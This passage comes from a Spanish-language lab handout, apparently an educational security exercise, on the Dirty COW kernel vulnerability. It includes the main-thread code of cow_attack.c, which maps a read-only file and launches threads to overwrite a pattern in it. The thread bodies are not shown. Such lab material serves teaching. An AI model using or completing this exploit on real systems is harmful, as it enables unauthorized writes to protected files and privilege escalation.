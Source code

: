 Dado el experimento anterior. Podemos observar que si tratamos de escribir en este archivo como un usuario no privilegiado, no podremos, esto se debe a que el archivo es de sólo lectura para usuarios normales. Sin embargo, usando la vulnerabilidad Dirty COW, podemos encontrar la forma de escribir en este archivo aunque sea de sólo lectura para nosotros. Nuestro objetivo será reemplazar el patrón  \texttt{"222222"} con \texttt{"******"}. 


\subsection{Configurando el Thread de Mapeo en Memoria}

Puede descargar el programa \texttt{cow\_attack.c} del sitio web del laboratorio. Este programa utiliza tres threads: el thread principal, el thread de escritura y el thread madvise.
El thread principal mapea el archivo \texttt{/zzz} en memoria, encuenttra donde se ubica el patrón \texttt{"222222"} y crea dos threads para explotar la vulnerabilidad Dirty COW en el kernel del sistema operativo.


\begin{lstlisting}[caption={The main thread},
                   label=cow:code:cow_attack:main]
/* cow_attack.c  (the main thread) */

#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;

int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;

  // Open the target file in the read-only mode.
  int f=open("/zzz", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "222222");                         (*@\ding{192}@*)

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); (*@\ding{193}@*)
  pthread_create(&pth2, NULL, writeThread, position);             (*@\ding{194}@*)

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}

\end{lstlisting}

